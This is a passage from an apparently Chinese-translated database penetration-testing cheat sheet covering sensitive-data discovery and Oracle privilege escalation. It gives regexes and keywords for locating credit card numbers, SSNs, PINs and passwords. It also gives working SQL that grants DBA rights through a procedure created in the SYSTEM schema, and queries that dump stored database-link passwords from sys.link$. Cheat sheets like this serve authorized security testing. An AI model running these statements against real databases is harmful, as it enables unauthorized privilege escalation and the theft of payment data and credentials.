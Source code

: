 <table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>所有主要的信用卡提供商</td><td align="center">^(?:4[0-9]{12}(?:[0-9]{3})?|(?:5[1-5][0-9]{2}|222[1-9]|22[3-9][0-9]|2[3-6][0-9]{2}|27[01][0-9]|2720)[0-9]{12}|3[47][0-9]{13}|3(?:0[0-5]|[68][0-9])[0-9]{11}|6(?:011|5[0-9]{2})[0-9]{12}|(?:2131|1800|35\d{3})\d{11})$</td></tr><tr><td>Unmasked | Masked SSN</td><td align="center">^(\d{3}-?\d{2}-?\d{4}|XXX-XX-XXXX)$</td></tr></tbody></table>

#### 数据定位关键字

<table width="677"><thead><tr><th>关键字</th></tr></thead><tbody><tr><td>credit</td></tr><tr><td>card</td></tr><tr><td>pin</td></tr><tr><td>cvv</td></tr><tr><td>pan</td></tr><tr><td>password</td></tr><tr><td>social</td></tr><tr><td>ssn</td></tr><tr><td>account</td></tr><tr><td>confidential</td></tr></tbody></table>

### **3、提升特权**

某些功能需要特权用户，并且为了升级漏洞，特权用户始终是第一步。

#### **MySQL**

还没有数据，如果您知道任何有用的方法，请在我们的 Github 上做出贡献！

#### **Oracle**

`*`需要特权用户

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>转储所有 DBA 用户名</td><td align="center">SELECT username FROM user_role_privs WHERE granted_role='DBA';</td></tr><tr><td>建立 DBA 用户</td><td align="center"><code>*</code>&nbsp;GRANT DBA to USER</td></tr><tr><td>创建过程</td><td align="center"><code>CREATE OR REPLACE PROCEDURE "SYSTEM".netspi1 (id IN VARCHAR2) AS PRAGMA autonomous_transaction; EXECUTE IMMEDIATE 'grant dba to scott'; COMMIT; END; BEGIN SYSTEM.netspi1('netspi'); END;</code></td></tr><tr><td>查找数据库链接</td><td align="center">SELECT * FROM DBA_DB_LINKS<br>SELECT * FROM ALL_DB_LINKS<br>SELECT * FROM USER_DB_LINKS</td></tr><tr><td>查询数据库链接</td><td align="center">SELECT * FROM sales@miami -- minimum for preconfigured<br>SELECT * FROM harold@netspi.com -- standard usage for selecting table from schema on remote server<br>SELECT * FROM harold@netspi.com@hq_1 -- standard usage for selecting table from schema on remote server instance<br>SELECT db_link,password FROM user_db_links WHERE db_link LIKE 'TEST%''<br>SELECT name,password FROM sys.link$ WHERE name LIKE 'TEST%';<br>SELECT name,passwordx FROM sys.link$ WHERE name LIKE 'TEST%';</td></tr><tr><td>在数据库链接上执行存储过程</td><td align="center">EXEC mySchema.myPackage.myProcedure@myRemoteDB('someParameter');<br>SELECT dbms_xmlquery.getxml('select * from emp') FROM harold@netspi.com</td></tr><tr><td>创建数据库链接</td><td align="center">CREATE SHARED PUBLIC DATABASE LINK supply.us.netspi.com; -- connected user setup<br>CREATE SHARED PUBLIC DATABASE LINK supply.us.netspi.com CONNECT TO harold AS tiger; -- standard defined user/pass<br>CREATE SHARED PUBLIC DATABASE LINK hq.netspi.com.com@hq_1 USING 'string_to_hq_1'; -- instance specific<br>CREATE SHARED PUBLIC DATABASE LINK link_2 CONNECT TO jane IDENTIFIED BY doe USING 'us_supply'; -- defined user<br>pass</td></tr><tr><td>删除链接</td><td align="center">DROP DATABASE LINK miami;</td></tr></tbody></table>

#### **SQL Server**

`*`需要特权用户。以下查询需要各种权限类型。请继续关注详细的权限提升路径。
